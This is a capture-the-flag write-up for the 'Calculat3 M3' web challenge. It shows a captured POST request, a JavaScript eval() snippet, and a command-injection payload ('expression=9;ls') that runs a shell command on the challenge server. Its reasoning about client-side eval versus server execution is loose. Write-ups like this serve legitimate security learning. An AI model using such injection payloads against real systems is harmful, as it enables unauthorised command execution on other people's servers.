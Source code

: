 # Calculat3 M3

### Description

Here! http://web.ctflearn.com/web7/ I forget how we were doing those calculations, but something tells me it was pretty insecure.

### Writeup

Open the site and we can find it's a calculator program ran by a JS script.

Use Burp Suite we can find that the operators are sent by a POST request to the server in a parameter `expression`.

```http
POST /web7/ HTTP/2
Host: web.ctflearn.com
Content-Length: 17
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="93", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Origin: https://web.ctflearn.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web.ctflearn.com/web7/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

expression=9+*+9+
```

Check the JS script, we will find a code block like below:

```js
try 
{ 
  c(eval(document.getElementById("d").value)) 
} 
```

This is pretty insecure with function `eval()`. Use payload `expression=9;ls` to let the server execute the command `ls`, then we can get the flag.

![image-20210925184010250](Calculat3-M3.assets/image-20210925184010250.png)

